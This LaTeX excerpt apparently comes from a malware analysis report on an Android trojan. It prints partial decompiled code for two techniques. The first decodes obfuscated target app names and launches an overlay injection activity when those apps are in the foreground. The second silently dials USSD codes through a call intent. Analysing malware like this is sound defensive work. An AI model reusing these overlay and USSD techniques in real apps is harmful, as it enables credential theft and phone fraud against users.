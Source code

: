 \documentclass[10pt,titlepage]{article}
\begin{document}
\begin{lstlisting}[label=serviceaccessibilityfddorun,caption=The function \textit{naqsl.ebxcb.exu.ServiceAccessibility\$fddo.run()} launches the \textit{naqsl.ebxcb.exu.Activity.ActivityInjection} if a known App is on top of the screen.,frame=tb]
public void run() {
            [...]
            // com.imo.android.imoim,com.twitter.android
            String str2 = "WTI5dExtbHRieTVoYm1SeWIybGtMbWx0Y" +                   
                          "jJsdExHTnZiUzUwZDJsMGRHVnlMbUZ1WkhKdmFXUT0=";
            if (str.contains(Cint.m430int(Cint.m430int(str2)))) {
                Cint intR2 = ServiceAccessibility.this.ifdf;
                String str3 = Cint.m430int(Cint.m430int(str2));
                Cint intR3 = ServiceAccessibility.this.ifdf;
                // com.imo.android.imoim,com.twitter.android,com.android.vending
                str = str.replace(str3, Cint.m430int(Cint.m430int(
                      "WTI5dExtbHRieTVoYm1SeWIybGtMbWx0YjJsdExHT" + 
                      "nZiUzUwZDJsMGRHVnlMbUZ1WkhKdmFXUXNZMjl0TG" + 
                      "1GdVpISnZhV1F1ZG1WdVpHbHVadz09")));
            }
            [...] ServiceAccessibility.this.getSystemService("keyguard"))
                                             .inKeyguardRestrictedInputMode()) {
                    try {
                        Intent intent = new Intent(this.ifdf, ActivityInjection.class);
                        [...]
                        ServiceAccessibility.this.startActivity(putExtra);
\end{lstlisting}

\subsubsection{ENTER USSD CODES} \label{ussdcodes}
The Activity \textit{naqsl.ebxcb.exu.Activity.ActivityStartUSSD} implements the funciton 
\\ \textit{naqsl.ebxcb.exu.Activity.ActivityStartUSSD.onCreate()} that creates an intent with action \textbf{android.intent.action.CALL} and the USSD code as data parameter. (see Listing \ref{ussdcodesoncreate})

\begin{lstlisting}[label=ussdcodesoncreate,caption=The function \textit{naqsl.ebxcb.exu.Activity.ActivityStartUSSD.onCreate()} starts an \textbf{android.intent.action.CALL} intent in order to execute an USSD code.,frame=tb]
public class ActivityStartUSSD extends Activity {
    [...]
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        try {
            String encode = Uri.encode(getIntent().getStringExtra("str")
                                                        .replace("AAA", "#"));
            Intent intent = new Intent("android.intent.action.CALL");
            StringBuilder sb = new StringBuilder();
            sb.append("tel:");
            sb.append(encode);
            startActivity(intent.setData(Uri.parse(sb.toString())));
            [...]
\end{lstlisting}
\end{document}
